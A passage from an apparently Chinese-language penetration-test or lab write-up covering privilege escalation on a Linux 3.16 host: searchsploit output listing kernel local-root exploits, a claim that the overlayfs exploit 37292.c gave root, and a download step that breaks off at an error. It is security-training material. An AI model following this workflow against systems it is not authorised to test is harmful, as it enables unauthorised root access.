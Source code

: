 

## 提权

**查看系统内核发现当前系统的版本为`linux kernel 3.16` 搜索对应的exploit，经过测试，最终使用`37292.c`成功获得root权限**

-   搜索当前系统版本的内核漏洞

-   ```shell
    ❯ searchsploit linux kernel 3.16 | grep "Privilege"
    Linux Kernel (Debian 7.7/8.5/9.0 / Ubuntu 14.04.2/16.04.2/17.04 / Fedora 22/25 / CentOS 7.3.1611) - 'ldso_hwcap_64 Stack Clash' Local Privilege Escalation                  | linux_x86-64/local/42275.c
    Linux Kernel (Solaris 10 / < 5.10 138888-01) - Local Privilege Escalation                                                                                                   | solaris/local/15962.c
    Linux Kernel 2.6.19 < 5.9 - 'Netfilter Local Privilege Escalation                                                                                                           | linux/local/50135.c
    Linux Kernel 3.11 < 4.8 0 - 'SO_SNDBUFFORCE' / 'SO_RCVBUFFORCE' Local Privilege Escalation                                                                                  | linux/local/41995.c
    Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation                                                                        | linux/local/37292.c
    Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation (Access /etc/shadow)                                                   | linux/local/37293.txt
    Linux Kernel 4.8.0 UDEV < 232 - Local Privilege Escalation                                                                                                                  | linux/local/41886.c
    Linux Kernel < 3.16.1 - 'Remount FUSE' Local Privilege Escalation                                                                                                           | linux/local/34923.c
    Linux Kernel < 3.16.39 (Debian 8 x64) - 'inotfiy' Local Privilege Escalation                                                                                                | linux_x86-64/local/44302.c
    Linux kernel < 4.10.15 - Race Condition Privilege Escalation                                                                                                                | linux/local/43345.c
    Linux Kernel < 4.11.8 - 'mq_notify: double sock_put()' Local Privilege Escalation                                                                                           | linux/local/45553.c
    Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation                                                                                               | linux/local/45010.c
    Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation                                                                                                      | linux/local/44298.c
    Linux Kernel < 4.4.0-21 (Ubuntu 16.04 x64) - 'netfilter target_offset' Local Privilege Escalation                                                                           | linux_x86-64/local/44300.c
    Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.04) - Local Privilege Escalation (KASLR / SMEP)                                                                       | linux/local/43418.c
    Linux Kernel < 4.4.0/ < 4.8.0 (Ubuntu 14.04/16.04 / Linux Mint 17/18 / Zorin) - Local Privilege Escalation (KASLR / SMEP) 
    ```

-   下载漏洞利用文件

-   ```shell
    ❯ searchsploit linux kernel 3.16 -m linux/local/37292.c                     
    [!] Could not find EDB-ID #
    
    